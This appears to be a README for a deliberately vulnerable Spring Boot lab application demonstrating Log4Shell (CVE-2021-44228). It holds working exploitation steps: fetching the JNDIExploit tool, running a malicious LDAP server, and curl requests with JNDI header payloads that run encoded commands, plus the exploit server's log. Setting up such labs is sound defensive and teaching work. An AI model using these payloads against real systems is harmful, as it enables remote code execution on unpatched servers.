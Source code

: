 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228,
nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

### Without docker

    gradle clean bootJar --no-daemon
    java -jar ./build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar

And to send the exploit:

    curl 127.0.0.1:8080 -H 'X-Api-Version: <PAYLOAD>'

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/)
. **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (
presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in
front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container
  running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

## TL;DR POC (Windows)

### Start vulnerable target

    git clone https://github.com/HenryFBP/log4shell-vulnerable-app
    cd log4shell-vulnerable-app
    gradle clean bootJar --no-daemon
    start cmd.exe /k java -jar ./build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar

### Start attacker's LDAP server

    git clone https://github.com/HenryFBP/JNDI-Exploit-Server
    cd JNDI-Exploit-Server
    mvn clean package
    start cmd.exe /k java -jar JNDIExploit.jar

### Send payload to vulnerable target (need GNU curl.exe...)

    choco install -y curl
    curl.exe 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://localhost:1389/Basic/Command/Base64/Y2FsYy5leGU=}'
